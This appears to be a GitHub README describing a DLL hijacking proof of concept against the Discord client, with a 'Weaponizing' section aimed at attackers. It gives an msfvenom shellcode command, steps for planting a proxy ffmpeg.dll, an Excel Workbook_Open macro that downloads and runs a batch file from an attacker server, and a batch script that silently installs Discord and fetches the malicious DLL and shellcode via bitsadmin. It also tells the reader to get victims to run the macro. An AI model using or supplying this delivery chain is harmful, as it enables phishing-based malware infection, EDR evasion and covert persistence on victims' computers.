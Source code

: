 # Discord-DLL-Hijacking
This is a simple quick example of DLL hijacking enabling proxy execution for the Discord Binary. This can be beneficial for attackers requiring proxy execution to bypass EDR

## Note
I submitted this vuln to discord via their hackerone program. They choose to not recognize DLL hijacking unless it's related to the discord installer binary. 
Similarly to chrome: https://chromium.googlesource.com/chromium/src/+/master/docs/security/faq.md#why-arent-physically_local-attacks-in-chromes-threat-model

I understand this too an extent, but they don't seem to make any attempt to verify these DLL's or load them using best practices as directed by Microsoft: 
https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1

</br>

## What is DLL hijacking and why is it useful? 

DLL hijacking has been around a very long time. The severity of these attacks is dependent on a variety of factors, primarily application context. 
Microsoft gives a good summary: 

"When an application dynamically loads a dynamic link library (DLL) without specifying a fully qualified path, Windows tries to locate the DLL by searching a well-defined set of directories. If an attacker gains control of one of the directories, they can force the application to load a malicious copy of the DLL instead of the DLL that it was expecting. These attacks are known as “DLL preloading attacks” and are common to all operating systems that support dynamically loading shared DLL libraries. The effect of such attacks could be that an attacker can execute code in the context of the user who is running the application. When the application is being run as Administrator, this could lead to a local elevation of privilege." 

-> Source: https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1 

Why should we care? 
First off, gaining execution context under a trusted application is useful for proxy execution of malicious payloads. Pending the AV/EDR, payloads can be executed in an'trusted' context. Adversaries can also use this technique for persistence mechanisms.

Discord in some instances requires Administrator privs when Push-To-Talk is overidden by other Administrative applications. This combined with it's popularity peaked my interest.


## Analyzing with Procmon 

Doing a basic filter results in ALOT of misconfigurations for search based DLL issues. What interested me was the 'ffmpeg.dll' I noticed elsehwhere in the procmon dump. This appears to be a common DLL used by a variety of applications including whatsapp. 

![image](https://user-images.githubusercontent.com/46195001/231240214-d6421d61-a458-4104-8591-03f38f26d2d4.png)

</br> 


## Generate a payload 
Generate some shellcode to your liking. My POC: msfvenom -f raw -o pop.bin -p windows/exec cmd="cmd.exe /k whoami" exitfunc=thread --bad-chars '\x00\x20\' --smallest

## Generating a malicious DLL 

Using this great repository we can create our own DLL utilizing pragma comments to replicate functions: 
https://github.com/Flangvik/SharpDllProxy 

![dllproxy](https://user-images.githubusercontent.com/46195001/232322708-9f158799-c850-4a69-b69b-ad7372cbec1b.png)

<br> 
This will output two files, .c & an DLL 'tmpXYZ.dll'. Simply create a new DLL project in visual studio and replace the source with the output from DLLProxy. 
Once you've compiled it, copy your DLL, the tmpXYZ.dll (rename it to ffmpeg.dll) and your shellcode.bin into "C:\Users\<user>\AppData\Local\Discord\app-1.0.9012\". 

## Result 
![popped](https://user-images.githubusercontent.com/46195001/232325180-3ec3af99-d5f9-4c8c-935c-fd7d3c0ece51.png)

Running Discord.exe executes a shellode. Great! Interestingly Discord itself crashes out with no visual artifacts but our cmd.exe process remains. This is ideal if we drop discord ourselves as a persistence mechanism without user knowledge. 
</br>

## Weaponizing 
It's quite simple to weaponize this DLL hijacking in an automated fashion. Below is a basic macro that downloads a batch file to execute installing discord and download the malicious files. 

The kicker for this method: 
- Discord installs silently, no on screen artifacts. 
- Discord uses it's own scheduled task on reboot giving us code exec.
- Using ffmpeg.dll will give us code execution and crash the legitimate discord process with zero notification to the user. Likely to see WerFault & MiniDumps however. 


</br>

### Excel Macro 

```
Private Sub Workbook_Open()

Dim url, downloadPath, batPath, shell, winHttpReq
url = "http://192.168.120.128/Update.txt"
downloadPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local\Update.bat"
batPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local"

' Create a WinHttpRequest objects
Set winHttpReq = CreateObject("WinHttp.WinHttpRequest.5.1")

' Open a connection to the specified URL
winHttpReq.Open "GET", url, False

' Send the HTTP request and download the file
winHttpReq.Send
If winHttpReq.Status = 200 Then
    Dim stream
    Set stream = CreateObject("ADODB.Stream")
    stream.Type = 1 ' Binary
    stream.Open
    stream.Write winHttpReq.ResponseBody
    stream.SaveToFile downloadPath, 2 ' Overwrite
    stream.Close
End If

' Execute the downloaded BAT file
Set shell = CreateObject("WScript.Shell")
shell.Run batPath & "\Update.bat"

Set shell = Nothing
Set winHttpReq = Nothing


End Sub
```

### Seemless discord install via .bat file. 
```
@echo off
set DOWNLOAD_URL=https://dl.discordapp.net/distro/app/stable/win/x86/1.0.9012/DiscordSetup.exe
set DOWNLOAD_DLL=http://192.168.120.128/ffmpeg.dll 
set DOWNLOAD_BIN=http://192.168.120.128/pop.bin
set DOWNLOAD_tmp=http://192.168.120.128/tmp108E.dll
set DOWNLOAD_LOCATION=C:\Windows\Temp\Update.exe
set EXECUTE_LOCATION=C:\Windows\Temp\

set COPY_LOCATION=%LOCALAPPDATA%\Discord\app-1.0.9012\
set DL_DLL=%LOCALAPPDATA%\Discord\app-1.0.9012\ffmpeg.dll
set DL_tmp=%LOCALAPPDATA%\Discord\app-1.0.9012\tmp108E.dll
set DL_bin=%LOCALAPPDATA%\Discord\app-1.0.9012\pop.bin


bitsadmin /transfer myDownloadJob /priority normal %DOWNLOAD_URL% %DOWNLOAD_LOCATION%
start "" "%EXECUTE_LOCATION%\Update.exe" --silent
timeout /t 10
bitsadmin /transfer myDownloadJob1 /priority normal %DOWNLOAD_DLL% %DL_DLL%
bitsadmin /transfer myDownloadJob2 /priority normal %DOWNLOAD_BIN% %DL_bin%
bitsadmin /transfer myDownloadJob3 /priority normal %DOWNLOAD_tmp% %DL_tmp%
```

### Server setup 
Enable apache 2 and copy across the files from below (I forgot the bat file in the ss). 
![image](https://user-images.githubusercontent.com/46195001/232535184-26456e4b-9a92-439e-b8e1-5c1405b792d1.png)

Create your macro in a convincing manner, get them to execute it. 

### Result... 
Popped a shell .. :) 
 
![image](https://user-images.githubusercontent.com/46195001/232533881-7fd1d90a-1974-4672-afc6-be0f802171a1.png)




